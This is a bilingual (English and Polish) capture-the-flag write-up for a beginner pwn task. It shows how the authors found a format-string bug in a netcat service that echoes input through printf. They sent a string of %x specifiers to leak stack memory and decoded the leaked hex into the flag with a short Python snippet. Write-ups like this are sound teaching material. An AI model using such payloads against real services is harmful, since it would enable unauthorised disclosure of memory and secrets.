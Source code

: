 # My first service I (pwn 100)


###ENG
[PL](#pl-version)

In the task we can connect to a service via netcat:

```
Welcome to my first service
Please input the secret key:
```

If we provide some string, the server sends it back if it is incorrect.
However, apparently server was doing `printf(our_data)` and therefore we could use `string format attack`.
If we provide some magic formatting parameters like `%s` or `%d` the `printf` function will try to access parameters from the stack, which means we can read data from the stack.

So we did:

```
nc6 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
nc6: using stream socket
Welcome to my first service
Please input the secret key: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Invalid key: 0 1 0 0 0 a 0 454b4f7b 4c614269 67426566 3072647d 0 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578
```

Where `%x` returns hex encoded integers from the stack.
Now we just have to decode the results:
(each pair of digits we treat as hex integer and we convert it to ascii character)

```python
x = '454b4f7b4c614269674265663072647d02578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578'

print("".join([chr(int(c,16)) for c in [x[i]+x[i+1] for i in range(0,len(x)-1,2)]]))
```

Which gives us:

```
'EKO{LaBigBef0rd}\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W'
```

###PL version

W zadaniu dostajemy adres usługi do połączenia się za pomocą netcata:

```
Welcome to my first service
Please input the secret key:
```

Jeśli podamy jakiś string, serwer odsyła go z informacją że jest błędny.
Niemniej wyglądało na to, że serwer wykonywał `printf(nasze_dane)` a tym samym mogliśmy wykorzystać `string format attack`.
Jeśli podamy pewne specjalne parametry w stringu jak `%s` albo `%d` funkcja `printf` będzie próbowała załadować tam wartości parametrów ze stosu, co oznacza, że możemy w ten sposób czytać dane na stosie.

I to właśnie zrobiliśmy:

```
nc6 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
nc6: using stream socket
Welcome to my first service
Please input the secret key: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Invalid key: 0 1 0 0 0 a 0 454b4f7b 4c614269 67426566 3072647d 0 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578
```

Gdzie `%x` zwraca integera ze stosu w postaci heksadecymalnej.
Teraz zostało jedynie zdekodować wynik:
(każdą parę cyfr traktujemy jako osobną liczbę heksadecymalną i zamieniamy na reprezentacje ascii)

```python
x = '454b4f7b4c614269674265663072647d02578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578202578'

print("".join([chr(int(c,16)) for c in [x[i]+x[i+1] for i in range(0,len(x)-1,2)]]))
```

Co daje:

```
'EKO{LaBigBef0rd}\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W\x82\x02W'
```
